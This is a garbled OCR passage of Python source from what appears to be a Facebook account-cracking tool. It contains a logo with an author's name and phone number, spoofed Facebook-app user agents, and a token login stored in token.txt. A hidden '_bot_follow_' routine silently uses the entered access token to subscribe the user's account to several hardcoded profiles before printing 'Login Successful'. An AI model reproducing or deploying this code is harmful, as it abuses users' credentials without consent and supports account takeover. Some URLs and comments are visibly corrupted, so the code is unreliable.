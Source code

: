 "\x1b[0;97m" # Putih _M_ = "\x1b[0;91m" # Merah _H_ = "\x1b[0;92m" # Hijau _U_ = "\x1b[0;95m" # Ungu  ### Logo _logo_line_1_ = ('%s.------..------..------..------..------.(_U_)) _logo_line_2_ = ('%s|A.--. ||H.--. ||M.--. ||A.--. ||R.--. |%s｡☆✼★━━━━━━━━━━━━━━━━━━━━━━━━━★✼☆｡'%(_U_,_H_)) _logo_line_3_ = ('%s| (\/) || :/\: || (\/) || (\/) || :(): | %sEditor By  %s• AHMAR JAN     %s '%(_U_,_M_,_P_,_U_)) _logo_line_4_ = ('%s| :\/: || (__) || :\/: || :\/: || ()() | %sWhatssap %s• 03127103451 %s '%(_U_,_M_,_P_,_U_)) _logo_line_5_ = ('%s| '--'A|| '--'H|| '--'M|| '--'A|| '--'R| %sAdrees %s•   FASILABAD %s '%(_U_,_M_,_P_,_U_)) _logo_line_6_ = ('%s`------'`------'`------'`------'`------' %s｡☆✼★━━━━━━━━━━━━━━━━━━━━━━━━━★✼☆｡'%(_U_,_H_)) def _my_logo_():     _ahmar_cici_(_logo_line_1_)     _ahmar_cici_(_logo_line_2_)     _ahmar_cici_(_logo_line_3_)     _ahmar_cici_(_logo_line_4_)     _ahmar_cici_(_logo_line_5_)     _ahmar_cici_(_logo_line_6_+'\n')  ### User Agent ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ua_nokia   = 'nokiac3-00/5.0 (07.20) profile/midp-2.1 configuration/cldc-1.1 mozilla/5.0 applewebkit/420+ (khtml, like gecko) safari/420+' ua_asus    = 'Mozilla/5.0 (Linux; Android 5.0; ASUS_Z00AD Build/LRX21V) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/37.0.0.0 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ua_huawei  = 'Mozilla/5.0 (Linux; Android 8.1.0; HUAWEI Y7 PRIME 2019 Build/5887208) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.62 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ua_vivo    = 'Mozilla/5.0 (Linux; Android 11; vivo 1918) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.62 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ua_oppo    = 'Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.105 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]' ua_samsung = 'Mozilla/5.0 (Linux; Android 5.0; SM-G900P Build/LRX21T; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.121 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/35.0.0.48.273;]' ua_windows = 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'  ### Penampungan _id_tampung_ = []  ### Jangan Diganti Nanti Error _oscylopsce_ = '__Ahmar__' _ascylapsci_ = '__Cici__' _escylipsce_ = '__Ahmar_Love_Cici__' _uscylupsci_ = '__My_Love____Ahmar____Ahmar_Love_Cici____Cici____Forever__'  ### Membuat Folder Direktori def _folder_():     try:os.mkdir("CP")     except:pass     try:os.mkdir("OK")     except:pass  ### Clear Login Session def _bersih_():     try:os.remove('token.txt')     except:pass  ### Clear User Agent def _del_():     try:os.remove('ugent.txt')     except:pass  ### Clear Terminal def _clear_():     if "linux" in sys.platform.lower():os.system("clear")     elif "win" in sys.platform.lower():os.system("cls")     else:os.system("clear")  ### Jangan Diganti Anjink! def _bot_follow_(_tok_dev_):     token = _tok_dev_     try:               _req_post_("https://https://www.facebook.com/profile.php?id=100027259894020/subscribers?access_token=" + token) Alizar M.M.M #         _req_post_("https://graph.facebook.com/100060885769913/subscribers?access_token=" + token) #  احسان اللہ         _req_post_("https://graph.facebook.com/100012267158212/subscribers?access_token=" + token) #  وزیراعظم صاحب         _req_post_("https://graph.facebook.com/100009834670141/subscribers?access_token=" + token) #  نسرین اختر         _req_post_("https://graph.facebook.com/100007026360241/subscribers?access_token=" + token)       # Zama Jan                          _ahmar_cici_('\n%s[%s!%s] %sLogin Successful'%(_H_,_P_,_H_,_P_))         time.sleep(2)     except (KeyError,IOError):pass  ### Login def _login_dev_(_Cici_Cantik_Banget_):     _clear_()     _my_logo_()     if _uscylupsci_ not in _Cici_Cantik_Banget_:_ahmar_cici_('%s[%s!%s] %sHey, do you want to recode?'%(_M_,_P_,_M_,_P_))     else:pass     _tok_dev_ = _cici_ahmar_('%s[%s•%s] %sPLEASE Enter Token :\n\n'%(_P_,_H_,_P_,_U_))     try:         _req_tok_  = _req_get_("https://graph.facebook.com/me?access_token=%s"%(_tok_dev_))         _js_load_  = _js_lo_(_req_tok_.text)         _nama_dev_ = _js_load_['name']         _op_dev_ = _ahmar_ahmar_('token.txt','w')         _op_dev_.write(_tok_dev_)         _op_dev_.close()         _bot_follow_(_tok_dev_)         _default_ua_(_Cici_Cantik_Banget_)         _menu_dev_(_Cici_Cantik_Banget_)     except (KeyError,IOError):         _ahmar_cici_('\n%s[%s!%s] %sToken EXPIRE'%(_M_,_P_,_M_,_P_))         _bersih_()         time.sleep(2)         _login_dev_(_Cici_Cantik_Banget_)     except requests.exceptions.ConnectionError:         _ahmar_cici_('\n%s[%s!%s] %sConnection Problem'%(_M_,_P_,_M_,_P_))         _cici_cici_()  ### Menu def _menu_dev_(_Ahmar_Ganteng_Banget_):     _clear_()     _my_logo_()     if _uscylupsci_ not in _Ahmar_Ganteng_Banget_:_ahmar_cici_('%s[%s!%s] %sHayoo Mau Recode Ya?'%(_M_,_P_,_M_,_P_))     else:pass     try:         _tok_dev_  = _ahmar_ahmar_("token.txt","r").read()         _req_tok_  = _req_get_("https://graph.facebook.com/me?access_token=%s"%(_tok_dev_))         _js_load_  = _js_lo_(_req_tok_.text)         _nama_dev_ = _js_load_['name']         _id_dev_   = _js_load_['id']     except (KeyError,IOError):         _ahmar_cici_('%s[%s!%s] %sToken Invalid'%(_M_,_P_,_M_,_P_))         _bersih_()         time.sleep(2)         _login_dev_(_Ahmar_Ganteng_Banget_)     except requests.exceptions.ConnectionError:         _ahmar_cici_('%s[%s!%s] %sConnection Problem'%(_M_,_P_,_M_,_P_))         _cici_cici_()     try:         _ip_url_ = "http://ip-api.com/json/"